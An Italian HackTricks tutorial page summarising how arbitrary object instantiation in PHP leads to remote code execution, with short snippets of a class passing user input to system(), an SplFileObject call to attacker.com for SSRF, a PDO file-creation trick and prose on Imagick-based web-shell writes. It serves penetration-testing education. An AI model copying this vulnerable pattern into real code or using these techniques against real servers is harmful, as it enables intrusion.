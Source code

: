 # PHP - RCE abusando della creazione di oggetti: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

Questo è fondamentalmente un riassunto di [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Introduzione

La creazione di nuovi oggetti arbitrari, come `new $_GET["a"]($_GET["a"])`, può portare a Remote Code Execution (RCE), come dettagliato in un [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Questo documento evidenzia varie strategie per ottenere RCE.

## RCE tramite Classi Personalizzate o Autoloading

La sintassi `new $a($b)` viene utilizzata per istanziare un oggetto dove **`$a`** rappresenta il nome della classe e **`$b`** è il primo argomento passato al costruttore. Queste variabili possono provenire da input dell'utente come GET/POST, dove possono essere stringhe o array, o da JSON, dove potrebbero presentarsi come altri tipi.

Considera il frammento di codice qui sotto:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
In questo caso, impostare `$a` su `App` o `App2` e `$b` su un comando di sistema (ad es., `uname -a`) porta all'esecuzione di quel comando.

**Le funzioni di autoloading** possono essere sfruttate se non ci sono classi del genere direttamente accessibili. Queste funzioni caricano automaticamente le classi dai file quando necessario e sono definite utilizzando `spl_autoload_register` o `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Il comportamento del caricamento automatico varia con le versioni di PHP, offrendo diverse possibilità di RCE.

## RCE tramite Classi Incorporate

In mancanza di classi personalizzate o autoloader, **le classi incorporate di PHP** possono essere sufficienti per RCE. Il numero di queste classi varia tra 100 e 200, a seconda della versione di PHP e delle estensioni. Possono essere elencate utilizzando `get_declared_classes()`.

I costruttori di interesse possono essere identificati tramite l'API di riflessione, come mostrato nel seguente esempio e nel link [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE tramite metodi specifici include:**

### **SSRF + Deserializzazione Phar**

La classe `SplFileObject` consente SSRF tramite il suo costruttore, permettendo connessioni a qualsiasi URL:
```php
new SplFileObject('http://attacker.com/');
```
SSRF può portare a attacchi di deserializzazione nelle versioni di PHP precedenti alla 8.0 utilizzando il protocollo Phar.

### **Sfruttare i PDO**

Il costruttore della classe PDO consente connessioni a database tramite stringhe DSN, potenzialmente abilitando la creazione di file o altre interazioni:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Le versioni di PHP fino alla 5.3.22 e 5.4.12 erano suscettibili ad attacchi XXE attraverso i costruttori `SoapClient` e `SimpleXMLElement`, a seconda della versione di libxml2.

## RCE tramite estensione Imagick

Nell'analisi delle **dipendenze di un progetto**, è stato scoperto che **Imagick** poteva essere sfruttato per **l'esecuzione di comandi** istanziando nuovi oggetti. Questo presenta un'opportunità per sfruttare vulnerabilità.

### Parser VID

È stata identificata la capacità del parser VID di scrivere contenuti in qualsiasi percorso specificato nel filesystem. Questo potrebbe portare al posizionamento di una shell PHP in una directory accessibile via web, ottenendo l'Esecuzione Remota di Codice (RCE).

#### Parser VID + Caricamento File

Si nota che PHP memorizza temporaneamente i file caricati in `/tmp/phpXXXXXX`. Il parser VID in Imagick, utilizzando il protocollo **msl**, può gestire caratteri jolly nei percorsi dei file, facilitando il trasferimento del file temporaneo in una posizione scelta. Questo metodo offre un ulteriore approccio per ottenere la scrittura arbitraria di file all'interno del filesystem.

### Crash PHP + Brute Force

Un metodo descritto nel [**writeup originale**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) prevede il caricamento di file che attivano un crash del server prima della cancellazione. Forzando il nome del file temporaneo, diventa possibile per Imagick eseguire codice PHP arbitrario. Tuttavia, questa tecnica è stata trovata efficace solo in una versione obsoleta di ImageMagick.

## Riferimenti

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
